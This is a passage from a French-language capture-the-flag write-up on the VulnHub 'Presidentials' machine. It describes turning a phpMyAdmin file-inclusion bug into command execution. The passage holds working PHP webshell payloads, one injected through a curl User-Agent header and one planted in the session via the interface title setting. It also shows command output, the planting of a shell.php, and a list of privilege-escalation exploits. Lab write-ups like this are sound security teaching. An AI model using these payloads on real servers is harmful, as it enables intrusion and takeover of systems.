 Dans la logique il n'y a qu'à faire une requête avec un User-Agent spécial puis réinclure le fichier :  

```plain
curl -A '<?php system($_GET["cmd"]); ?>' http://datasafe.votenow.local/
```

C'est là où je me suis merdé et ait fermé une porte. Fuck! Il semble que le guillemet a été échappé ce qui causait une erreur de syntaxe à l'inclusion (que je pouvais ensuite voir sur la sortie d'erreur en incluant */proc/self/fd/2*).  

Dans ces cas là soit on trouve une astuce alternative soit on compte sur la rotation des logs pour corriger notre bétise (on peut attendre des heures, des jours ou éventuellement bourriner de requêtes selon la configuration de logrotate).  

Bourriner n'ayant pas fonctionné je me suis penché sur l'inclusion de */proc/self/fd/9* qui correspond vraisemblablement au fichier de session que l'exploit aurait du inclure.  

*phpMyAdmin* contient différentes fonctionnalités de personnalisation et j'ai testé différents réglages avant de croiser un paramètre qui se retrouvait effectivement dans la session.  

Finalement le titre de l'interface web est un bon candidat :  

![VulnHub Presidentials CTF phpMyAdmin title configuration](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/presidentials_pma_settings.png)

Le texte est bien présent :  

```plain
--- snip ---
userconfig|a:2:{s:2:"db";a:3:{s:12:"Console/Mode";s:8:"collapse";s:12:"TitleDefault";s:12:"<thisisdope>";s:14:"Server/hide_db";s:0:"";}s:2:"ts";i:1640526301;}
--- snip ---
```

Maintenant il s'agit de ne pas se rater. Je modifie cette valeur pour la ligne suivante :  

```php
dv_start<?php system($_GET[chr(99)]); ?>dv_end
```

Ce qui me permettra aussi de retrouver facilement mon output.  

Cette fois ça fonctionne bien si on passe *id; uname -a* au paramètre *c* :  

```plain
dv_startuid=48(apache) gid=48(apache) groups=48(apache)
Linux votenow.local 3.10.0-1127.13.1.el7.x86_64 #1 SMP Tue Jun 23 15:46:38 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
dv_end
```

Second tour
-----------

Premier réflexe après ces difficultés : écrire un shell.php à la racine du site :)  

LinPEAS me remonte pas mal d'exploits possibles : dirtycow, sudo Baron Samedit, RationalLove, overlayfs ainsi que ceux-ci :  

```plain

  [1] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [2] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [3] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346
```
